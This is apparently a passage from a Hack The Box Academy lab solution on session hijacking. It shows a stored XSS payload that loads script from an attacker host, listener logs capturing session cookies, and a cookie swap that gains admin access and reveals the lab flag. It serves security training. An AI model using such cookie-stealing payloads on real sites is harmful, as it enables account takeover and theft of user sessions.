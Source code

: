 Then, students need to inject the "Telephone" field with a XSS such as `<script src=http://STMIP:STMPO/script.js></script>` payload so that the admin user will request `script.js` and get their cookie stolen:

![[HTB Solutions/CBBH/z. images/7867eb53582c33f436d253a0c3930b0b_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/078a8cc9e6730797191a8eefd9a8655e_MD5.jpg]]

Students can test if the payload is working by visiting `Share` and noticing that the cookie of Julie's session is sent to the HTTP server:

```
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-ngtblxja5i]─[~]
└──╼ [★]$ php -S 0.0.0.0:9001

[Tue Nov 29 09:02:21 2022] PHP 7.4.30 Development Server (http://0.0.0.0:9001) started
[Tue Nov 29 09:09:01 2022] 10.10.14.41:40180 Accepted
[Tue Nov 29 09:09:01 2022] 10.10.14.41:40180 [200]: GET /index.php?c=auth-session=s%3A4UCuTyC6ujeLyv8pxkgglm1fQ-Rca6sW.zHDrJjfaSn5o%2F5TfIDQ%2B2LjExLqm9dS6cr5vIzAsToA
[Tue Nov 29 09:09:01 2022] 10.10.14.41:40180 Closing
```

Subsequently, using Julie's share link, `http://minilab.htb.net/profile?email=julie.rogers@example.com`, students need to navigate to `http://minilab.htb.net/submit-solution` and provide the share link as the value for the URL parameter `url`, as in `http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com`:

![[HTB Solutions/CBBH/z. images/a966a5debf019391da38d7421a9b603b_MD5.jpg]]

Checking the HTTP server, students will know that the cookie of the admin is `s%3Ag_qnykCyzo6h5-uViQJW1cTIN4sFUSAR.Ir%2BO%2FcnPTN7Q%2Fp%2FKeuQ%2FzNMdwFeHWVUsnV7HNJ5HflQ`:

```
[Tue Nov 29 09:12:56 2022] 10.129.44.2:51070 Accepted
[Tue Nov 29 09:12:56 2022] 10.129.44.2:51070 [200]: GET /index.php?c=auth-session=s%3Ag_qnykCyzo6h5-uViQJW1cTIN4sFUSAR.Ir%2BO%2FcnPTN7Q%2Fp%2FKeuQ%2FzNMdwFeHWVUsnV7HNJ5HflQ
[Tue Nov 29 09:12:56 2022] 10.129.44.2:51070 Closing
```

Therefore, students need to replace the value of the `auth-session` cookie of Julie with that of the admin, `s%3Ag_qnykCyzo6h5-uViQJW1cTIN4sFUSAR.Ir%2BO%2FcnPTN7Q%2Fp%2FKeuQ%2FzNMdwFeHWVUsnV7HNJ5HflQ`:

![[HTB Solutions/CBBH/z. images/81a2cb06c7686efa4468f60daf529751_MD5.jpg]]

After refreshing the page, students will notice that the user has changed to Super Admin, thus, they need to click on `Change Visibility` and make the profile public:

![[HTB Solutions/CBBH/z. images/e6a93ec5aaad723c782a5631054aac85_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/99bb6f1767fbcde95ca5515b5e856f3f_MD5.jpg]]

Afterward, students need to click on `Share`, to find the flag `[YOU_ARE_A_SESSION_WARRIOR]`:

![[HTB Solutions/CBBH/z. images/3de395f1d7e985c1eddd4e2e8ea8fc32_MD5.jpg]]
